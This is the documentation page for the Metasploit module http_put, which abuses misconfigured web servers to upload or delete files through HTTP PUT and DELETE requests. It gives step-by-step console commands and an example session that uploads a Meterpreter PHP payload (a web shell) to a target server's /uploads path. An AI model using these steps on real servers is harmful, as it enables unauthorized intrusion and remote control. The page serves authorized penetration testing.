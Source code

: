 ## Description 
This module can abuse misconfigured web servers to upload and delete web content via PUT and DELETE HTTP requests.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/http_put```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set PATH [PATH]```
5. Do: ```set FILENAME [FILNAME]```
6. Do: ```set FILEDATA [PATH]```
7. DO: ```run```

## Options 

### ACTION

**PUT**

Action is set to PUT to upload files to the server. If `FILENAME` isn't specified, the module will generate a random string as a .txt file.

**DELETE** 

Deletes the file specified in the `FILENAME` option. (default: `msf_http_put_test.txt`)

### PATH

The path at which this module will attempt to either PUT the content or DELETE it.

## Scenarios

Here Action is set to `PUT`.

```
msf > use auxiliary/scanner/http/http_put
msf auxiliary(scanner/http/http_put) > set ACTION PUT
ACTION => PUT
msf auxiliary(scanner/http/http_put) > set RHOSTS 1.1.1.23
RHOSTS => 1.1.1.23
msf auxiliary(scanner/http/http_put) > set RPORT 8585
RPORT => 8585
msf auxiliary(scanner/http/http_put) > set PATH /uploads
PATH => /uploads
msf auxiliary(scanner/http/http_put) > set FILENAME meterpreter.php
FILENAME => meterpreter.php
msf auxiliary(scanner/http/http_put) > set FILEDATA file://root/Desktop/meterpreter.php
FILEDATA => file://root/Desktop/meterpreter.php
msf auxiliary(scanner/http/http_put) > run 

[+] File uploaded: http://1.1.1.23:8585/uploads/meterpreter.php
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/http_put) >
```
 
